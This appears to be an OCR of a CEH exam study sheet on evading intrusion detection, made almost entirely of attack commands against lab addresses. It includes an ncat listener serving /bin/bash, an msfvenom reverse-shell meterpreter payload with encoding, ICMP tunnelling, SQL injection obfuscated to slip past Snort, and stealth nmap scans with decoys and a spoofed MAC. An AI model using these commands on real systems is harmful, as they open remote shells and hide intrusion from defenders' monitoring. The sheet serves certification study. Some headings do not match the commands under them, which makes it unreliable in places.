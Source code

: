 ### Protocol-Level Evasion

HTTP/S Traffic Obfuscation

```
cryptcat -k "CEH2023" -l -p 4444  # Encrypted tunnel
```

```
socat TCP4-LISTEN:443,fork,reuseaddr TCP4:10.10.10.10:80  # Port redirection
```

ICMP Covert Channel

```
ptunnel -p 10.10.10.10 -lp 1080 -da 192.168.1.100 -dp 22  # SSH over ICMP
```

### IDS Signature Evasion

Snort Rule Evasion
```
curl http://10.10.10.10 --data "var=SELECT/*random_text*/password/*more_text*/FROM users"  # SQLi obfuscation
```

Unicode Evasion

```
ncat -lvp 4444 -e /bin/bash --allow 10.10.10.10 --ssl  # SSL-wrapped shell
```

###  Real-World Exam Lab

Task: Evade detection while scanning Windows target

```
nmap -sS -T2 -f --data-length 24 --ttl 64 --spoof-mac Cisco 10.10.10.10 -p 80,443,445 -oN stealth_scan.txt
```

Expected Output:

```
# "Host appears to be up" without triggering alerts
```

# Run these until automatic:

```
nmap -f -D RND:3 -T2 --source-port 53 10.10.10.10
```

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe
```

```
ptunnel -p 10.10.10.10 -lp 1080 -da 192.168.1.100 -dp 22
```
